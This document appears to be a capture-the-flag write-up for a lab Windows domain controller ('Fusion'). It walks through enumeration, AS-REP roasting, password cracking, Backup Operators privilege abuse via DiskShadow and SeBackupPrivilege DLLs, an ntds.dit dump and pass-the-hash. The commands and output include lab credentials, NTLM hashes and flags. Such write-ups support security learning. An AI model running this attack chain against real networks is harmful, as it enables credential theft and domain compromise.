

# PORT SCAN
---

| PORT     | SERVICE         |
|----------|-----------------|
| 53/tcp   | domain          |
| 80/tcp   | http            |
| 88/tcp   | kerberos-sec    |
| 135/tcp  | msrpc           |
| 139/tcp  | netbios-ssn     |
| 389/tcp  | ldap            |
| 445/tcp  | microsoft-ds    |
| 464/tcp  | kpasswd5        |
| 593/tcp  | ncacn_http      |
| 636/tcp  | tcpwrapped      |
| 3268/tcp | ldap            |
| 3269/tcp | tcpwrapped      |
| 3389/tcp | ms-wbt-server   |
| 5985/tcp | http            |
| 9389/tcp | mc-nmf          |
| 49666/tcp| msrpc           |
| 49668/tcp| msrpc           |
| 49669/tcp| ncacn_http      |
| 49670/tcp| msrpc           |
| 49677/tcp| msrpc           |
| 49690/tcp| msrpc           |
| 49707/tcp| msrpc           |


# RECONNAISSANCE
---

Based on the scan, we can identify the `dc` and `domain`, let's add them to `/etc/hosts`:

```bash
echo '10.10.231.61 fusion.corp Fusion-DC.fusion.corp' | sudo tee -a /etc/hosts
```

We got a lot of ports open, let's do some basic enumeration on `ldap`, `smb`:

```bash
smbclient -L //10.10.231.61 -N
Can't load /etc/samba/smb.conf - run testparm to debug it
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available
```

Anonymous login works but we cannot see shares, let's try ldap:


```bash
ldapsearch -x -H ldap://10.10.231.61 -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts
#

#
dn:
namingcontexts: DC=fusion,DC=corp
namingcontexts: CN=Configuration,DC=fusion,DC=corp
namingcontexts: CN=Schema,CN=Configuration,DC=fusion,DC=corp
namingcontexts: DC=DomainDnsZones,DC=fusion,DC=corp
namingcontexts: DC=ForestDnsZones,DC=fusion,DC=corp

# search result
search: 2
result: 0 Success

ldapsearch -x -H ldap://10.10.231.61 -b "DC=fusion,DC=corp"
# extended LDIF
#
# LDAPv3
# base <DC=fusion,DC=corp> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A69, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```

Anonymous bind is not enabled on ldap, unlucky.

Since we cannot see anything interesting on here, we can proceed to analyze the website on port `80`:


We got some stuff on here, let's try to fuzz to find more hidden directories:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.231.61/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.231.61/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.html              [Status: 200, Size: 53888, Words: 18198, Lines: 1364, Duration: 236ms]
img                     [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 557ms]
blog.html               [Status: 200, Size: 22163, Words: 7549, Lines: 575, Duration: 390ms]
css                     [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 236ms]
Index.html              [Status: 200, Size: 53888, Words: 18198, Lines: 1364, Duration: 248ms]
lib                     [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 244ms]
js                      [Status: 301, Size: 146, Words: 9, Lines: 2, Duration: 227ms]
Blog.html               [Status: 200, Size: 22163, Words: 7549, Lines: 575, Duration: 317ms]
backup                  [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 325ms]
Backup                  [Status: 301, Size: 150, Words: 9, Lines: 2, Duration: 239ms]
IMG                     [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 239ms]
INDEX.html              [Status: 200, Size: 53888, Words: 18198, Lines: 1364, Duration: 233ms]
contactform             [Status: 301, Size: 155, Words: 9, Lines: 2, Duration: 267ms]
CSS                     [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 230ms]
Img                     [Status: 301, Size: 147, Words: 9, Lines: 2, Duration: 240ms]
JS                      [Status: 301, Size: 146, Words: 9, Lines: 2, Duration: 239ms]
```

`/backup` seems interesting, let's check it out:


We got `employees.ods` on here, we can open this file with `libreoffice` or just `excel`:


Let's start exploitation.


# EXPLOITATION
---

We got some usernames, since Kerberos is enabled, we can use `kerbrute`:

```
jmickel
aarnold
llinda
jpowel
dvroslav
tjefferson
nmaurin
mladovic
lparker
kgarland
dpertersen
```

We can save the users and use the tool:

```bash
kerbrute userenum --dc 10.10.21.37 -d fusion.corp users.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (n/a) - 06/15/25 - Ronnie Flathers @ropnop

2025/06/15 18:59:03 >  Using KDC(s):
2025/06/15 18:59:03 >  	10.10.231.61:88

2025/06/15 18:59:03 >  [+] lparker has no pre auth required. Dumping hash to crack offline:
$krb5asrep$18$lparker@FUSION.CORP:e14f0a12dc0b1c6b53280c85458da7fb$d5eab59340d7cdd2a0992dc5ff19000fd958b98e17286e58cc194a5f6d677c478cca9fb6099ff1ad952e5188786f06b03fcd4e5b65128a479a02b6d5ce21731bbdf2b9fb6c406c967b3a0cae1a03b2e5a456a3a90c44ff2b7870afb6e4e4eaa009f7e1e58aced3e495f47bd96b4e09c3048d7e1cee9d9169976b89e3a8f57ec970797c3cc2b84c7facad98942e8c295fb9f82336d0094011ebb0161e1697318d1a6faa49df2a39c2db0208d0b71cec30d1efcdcc90b15091a6f001ad74085a2b3f19be263f022936940c51ac1732679deab7623fa6e6edf00c234ccc4e50033961d7a12fd52f961d5001b82c96d8858840fd71d9cea2eb1886dbdb7ce35c
2025/06/15 18:59:03 >  [+] VALID USERNAME:	 lparker@fusion.corp
2025/06/15 18:59:03 >  Done! Tested 11 usernames (1 valid) in 0.401 seconds
```

As we can see `lparker` doesn't have `dont_require_preauth` flag disabled, this makes the user vulnerable to `AS-REP Roasting`, for some reason, when I tried cracking the hash that kerbrute gave me, it didn't work, so, we can request the right hash using `GetNPUsers.py`:


```bash
GetNPUsers.py fusion.corp/lparker -no-pass -dc-ip 10.10.21.37
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for lparker
$krb5asrep$23$lparker@FUSION.CORP:7bf1f26e4d7801f8220b83a5dae77e89$c602e976ce5593e864a43fe3a069c343c0eb3d0e8b4c78010584df5f8fd3013827172cc85bcce22745f014ce260527ad21e9b5fc4ef23809490ee0b5e9810216d8fc2a185de1e3f97dca85dfd651043a673fc0ae74273c36aa6e3694704c4388f092efb5c10faaf68a6dccd3c43a5159d40a02cf95afeba0dd2729e99516195725bfec224b1298a8f1ab92c77ff17af967d730474e6b03efb31a0fa18fb177eb5f9340548c42e75432c448e7dc626f3e413105cf02866882f04f72aee0a45f8210746aed8a85114e191db59d07d38dea743155aa2808eedd3db9dff3b2210fc1afe6e3cd39dd594a934f
```

Nice, let's crack it, we can either use john or hashcat, both will work:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

!!abbylvzsvs2k6! ($krb5asrep$23$lparker@FUSION.CORP)

hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt

$krb5asrep$23$lparker@FUSION.CORP:7bf1f26e4d7801f8220b83a5dae77e89$c602e976ce5593e864a43fe3a069c343c0eb3d0e8b4c78010584df5f8fd3013827172cc85bcce22745f014ce260527ad21e9b5fc4ef23809490ee0b5e9810216d8fc2a185de1e3f97dca85dfd651043a673fc0ae74273c36aa6e3694704c4388f092efb5c10faaf68a6dccd3c43a5159d40a02cf95afeba0dd2729e99516195725bfec224b1298a8f1ab92c77ff17af967d730474e6b03efb31a0fa18fb177eb5f9340548c42e75432c448e7dc626f3e413105cf02866882f04f72aee0a45f8210746aed8a85114e191db59d07d38dea743155aa2808eedd3db9dff3b2210fc1afe6e3cd39dd594a934f:!!abbylvzsvs2k6!
```

We got some initial credentials:

```
lparker:!!abbylvzsvs2k6!
```

A nice approach would be using `bloodhound` to check how we can escalate our privileges, since we got some credentials now, we can use it:

```python
bloodhound-python -d fusion.corp -u lparker -p '!!abbylvzsvs2k6!' -ns 10.10.21.37 -c All --zip
```

Once the scan finishes, we can upload the data to bloodhound, if you already got ingested data into bloodhound, you can use the following command on `neo4j` to delete all data:

> Note: If you want to flush all previous data from bloodhound, you can go to `http://localhost:7474` and perform the following query:

```
MATCH (n)
DETACH DELETE n
```


As seen, we got another user named `jmurphy` which is a member of `Backup Operators`, if we get access to this account, we can exploit this to get a copy of the HKLM SAM and SYSTEM hives to extract the NTLM hash for the admin user.

While analyzing `bloodhound`'s output, we can check this on the `Object Informatiom` for the user:


As seen in the description, the password is set to:

```
u8WC3!kLsgw=#bRY
```

We can try these credentials on `crackmapexec` to check if we can go into `evil-winrm`:

```bash
crackmapexec winrm 10.10.21.37 -u jmurphy -p 'u8WC3!kLsgw=#bRY'
CrackMapExec is deprecated and has been replaced by NetExec.
This binary is just an alias for netexec command.
WINRM       10.10.21.37     5985   FUSION-DC        [*] Windows 10 / Server 2019 Build 17763 (name:FUSION-DC) (domain:fusion.corp)
WINRM       10.10.21.37     5985   FUSION-DC        [+] fusion.corp\jmurphy:u8WC3!kLsgw=#bRY (Pwn3d!)
```

They work, let's start privilege escalation.


# PRIVILEGE ESCALATION
---

We already know that the path we must follow to get administrator is:



Since we already got the credentials, we can go into `evil-winrm` to perform the attack, let's do it:

```
evil-winrm -i 10.10.21.37 -u jmurphy -p 'u8WC3!kLsgw=#bRY'
```

Now here comes the "hard" part, if we were to simply dump the sam and system, we would follow the standard procedure shown in many articles in which we'd do:

```
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
cd Temp
download sam
download system
```

But, this won't work this time, this is because we need to use DiskShadow because `ntds.dit` lives on the live C: drive and is always locked by the NTDS service, so we can’t just copy it out normally. By creating a VSS snapshot and exposing it as a new drive letter, we get a “frozen”, consistent copy that’s not in use and can be read.

The file `ntds.dit` is the Active Directory database itself, it contains all user and computer objects, including their hashed passwords.

Let's begin by creating a `diskshadow.txt` file with this contents:

```powershell
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% z: 
```

Now, before we perform the attack, we need two DLLs from github, the custom DLLs (`SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll`) enable Backup Operators to weaponize their `SeBackupPrivilege` right. They provide PowerShell commands that bypass file permissions by leveraging low-level Windows backup APIs, allowing direct reading of protected files like `NTDS.dit`, which is normally locked and accessible only to SYSTEM/Administrators. This transforms the privilege into a practical file-access bypass tool without requiring admin rights.

```bash
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll  
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll  
```

Once we got them all, let's start, first, upload the files into a temporary directory we'll create:

```
mkdir C:\tmp  
cd C:\tmp
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll
upload diskshadow.txt
```


Next step is to create the shadow copy:

```
diskshadow.exe /s .\diskshadow.txt  
```


Now, we need to use the DLLs to bypass the ACLs and copy `ntds.dit`:

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll  
Import-Module .\SeBackupPrivilegeCmdLets.dll  
Copy-FileSeBackupPrivilege z:\windows\ntds\ntds.dit C:\tmp\ntds.dit -Overwrite  
```

Nice, now we need to extract the SYSTEM hive:

```
reg save HKLM\SYSTEM C:\tmp\system  
```


Let's download both files into our machine:

```powershell
download ntds.dit  
download system  
```

This step will take a while so once it finished, we can use secretsdump to get the hashes:

```python
secretsdump.py -system system -ntds ntds.dit LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xeafd8ccae4277851fc8684b967747318
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 76cf6bbf02e743fac12666e5a41342a7
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9653b02d945329c7270525c4c2a69c67:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
FUSION-DC$:1000:aad3b435b51404eeaad3b435b51404ee:06dad9b238c644fdc20c7633b82a72c6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:feabe44b40ad2341cdef1fd95297ef38:::
fusion.corp\lparker:1103:aad3b435b51404eeaad3b435b51404ee:5a2ed7b4bb2cd206cc884319b97b6ce8:::
fusion.corp\jmurphy:1104:aad3b435b51404eeaad3b435b51404ee:69c62e471cf61441bb80c5af410a17a3:::
[*] Kerberos keys from ntds.dit
Administrator:aes256-cts-hmac-sha1-96:4db79e601e451bea7bb01d0a8a1b5d2950992b3d2e3e750ab1f3c93f2110a2e1
Administrator:aes128-cts-hmac-sha1-96:c0006e6cbd625c775cb9971c711d6ea8
Administrator:des-cbc-md5:d64f8c131997a42a
FUSION-DC$:aes256-cts-hmac-sha1-96:3512e0b58927d24c67b6d64f3d1b71e392b7d3465ae8e9a9bc21158e53a75088
FUSION-DC$:aes128-cts-hmac-sha1-96:70a93c812e563eb869ba00bcd892f76a
FUSION-DC$:des-cbc-md5:04b9ef07d9e0a279
krbtgt:aes256-cts-hmac-sha1-96:82e655601984d4d9d3fee50c9809c3a953a584a5949c6e82e5626340df2371ad
krbtgt:aes128-cts-hmac-sha1-96:63bf9a2734e81f83ed6ccb1a8982882c
krbtgt:des-cbc-md5:167a91b383cb104a
fusion.corp\lparker:aes256-cts-hmac-sha1-96:4c3daa8ed0c9f262289be9af7e35aeefe0f1e63458685c0130ef551b9a45e19a
fusion.corp\lparker:aes128-cts-hmac-sha1-96:4e918d7516a7fb9d17824f21a662a9dd
fusion.corp\lparker:des-cbc-md5:7c154cb3bf46d904
fusion.corp\jmurphy:aes256-cts-hmac-sha1-96:7f08daa9702156b2ad2438c272f73457f1dadfcb3837ab6a92d90b409d6f3150
fusion.corp\jmurphy:aes128-cts-hmac-sha1-96:c757288dab94bf7d0d26e88b7a16b3f0
fusion.corp\jmurphy:des-cbc-md5:5e64c22554988937  
```

We got our hash, let's use evil-winrm:

```
evil-winrm -i IP -u Administrator -H '9653b02d945329c7270525c4c2a69c67'
```


We can now read all flags:

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type C:\Users\lparker\Desktop\flag.txt
THM{c105b6fb249741b89432fada8218f4ef}

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type C:\Users\jmurphy\Desktop\flag.txt
THM{b4aee2db2901514e28db4242e047612e}

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type flag.txt
THM{f72988e57bfc1deeebf2115e10464d15}
```


